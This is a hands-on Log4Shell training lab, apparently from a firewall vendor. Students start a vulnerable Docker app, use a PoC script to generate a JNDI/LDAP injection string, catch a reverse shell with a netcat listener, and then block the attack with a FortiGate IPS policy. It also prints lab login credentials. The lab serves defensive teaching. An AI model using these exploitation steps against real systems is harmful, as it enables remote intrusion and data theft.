




[Log4Shell is a zero-day](https://en.wikipedia.org/wiki/Log4Shell) vulnerability with a CVSS severity rating of 10 and it was largely explored few years ago... and continues to these days. In this lab you will perform some attacks and block it using FGT.

1. The first thing we need to do is to start a Docker container with the vulnerable application
2. In AWS console, go to EC2 menu and click on "Instances"
3. Click "wk-spk1-pub-a" and then click "Connect"

4. Click "EC2 serial console" and then "Connect"

5. The login information is:

user: **`student`**
password: **`F0rt1n3t`**

6. Inside the console, run the following command:

**`docker run --network host -t -i log4j-shell-poc`**

7. Copy its PublicIPs. The application URL (***Log4ShellAPPURL***) will be http://PublicIPs:8080. In this example: http://54.221.177.198:8080

8.  Access **Pub-EC2** using **Microsoft Remote Desktop Connection** (or equivalent) with the public IP shown on: AWS Console > EC2 > Instances > Click ***Pub-EC2*** > Public IPv4 address 

9.  To login, use the credentials below:

user: **`student`**
password: **`F0rt1n3t`**

{}
If shown another screen with "Authentication Required" and Ubuntu user, just click "Cancel"
{}

10.  Click the 9-dots square to open Firefox (if you dont see the dots, click on "Activities")

11.  Use Firefox address bar to access the **Log4ShellAPPURL**
12.  You should have accessed the application. Keep this Firefox window open. The application can be slightly different from the image below
13.  Click "**activities**" menu at upper left > 9-dots square > Terminal

14.  Inside terminal window type:

**`cd log4j-shell-poc`**
**`python3 poc.py \--userip \<PUBLIC_IP\> \--webport 8000 \--lport 9001`**

{}
PUBLIC_IP is the public IP you used to connect to Remote Desktop. You can see it in the "title bar" from remote desktop app, example in the screenshots 52.91.129.42
{}

15.  Press **enter**
16.  You should see a string starting with \${jndi://ldap....... Copy it

17. Open a new tab in the terminal window and type:

**`nc -lvnp 9001`**

18. Press **enter**. It starts the **netcat**
19. Leave the terminal window opened
20. Go to the Firefox browser and paste the string copied from step 16 in the **Username** field
21. In the password you can type anything, example: password
22. Click **Login**
23. In the terminal window (with netcat running) you should see a message "Connection received on ..."
24. This means you got remote shell!
25. This terminal window (with netcat running) is now the shell from the pod running the application. You can do whatever you want, as you are... if you type **whoami** and press **enter** in the terminal you'll know...

26. Now you are inside, as an attacker, you could perform a lot of attacks, data exfiltration, lateral movement and many other dangerous activities

{}
**Note**: You used a EC2 in other VPC, the access from this EC2 don't go through FortiGate and you also used the external (public) IP, so it could be done from any other machine in the internet
{}

27. Press ***CTRL+C*** to stop netcat
27. You will block this attack with FortiGate. To do so, you will enable the IPS profile
28. Go to FortiGate GUI
29. To access FortiGate, open AWS Console > EC2 > Instances > click on FortiGate instance (fgt_byol_asg). To see the FortiGate public IP, select the FortiGate, then click "Networking" tab and scroll down:

30. Copy this IP and in a new browser tab, paste it to access FortiGate GUI. 
31. FortiGate credentials are in Sharepoint page
32. Change the firewall policy named **Rule for Log4J testing** to be exactly as shown below:

33. Now, try to perform the same attack again. If you don't remember, go back 14
36. Different from earlier, now you should not see any connection in your netcat terminal. Go check FortiGate logs

37. Inside **Logs & Report \> Security Events \> Intrusion Prevention** you will find the log entry blocking Log4Shell.
38. **Lab complete!**
